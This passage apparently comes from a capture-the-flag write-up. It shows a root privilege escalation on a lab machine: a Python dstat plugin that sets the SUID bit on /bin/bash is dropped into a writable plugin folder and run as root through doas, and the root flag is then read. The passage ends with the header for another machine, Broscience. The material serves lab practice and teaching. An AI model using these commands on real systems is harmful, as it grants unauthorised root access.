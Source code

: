 * We have write permissions in /usr/local/share/dstat 
* This is the directory plugins are stored
``` bash
bash-5.0$ ls -la /usr/local/share/dstat
total 8
drwxrwx--- 2 root player 4096 Jan 11 18:21 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
bash-5.0$ 
```
* We create a plugin as so 
* Then we execute it as root

``` bash
bash-5.0$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
bash-5.0$ ls
dstat_privesc.py  snap	user.txt
bash-5.0$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash-5.0$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash-5.0$ bash -p
bash-5.0# whoami
root
```
``` bash
bash-5.0# pwd
/root
bash-5.0# ls
app  root.txt  run.sql	snap
bash-5.0# cat root.txt 
be**************************b94
```

And we've got the flag!

<br />


# BROSCIENCE
---


![image](./assets/img/broscience.png)

<br /><br />
---

* MACHINE:Broscience
* Level: medium
* IP: 10.10.11.195

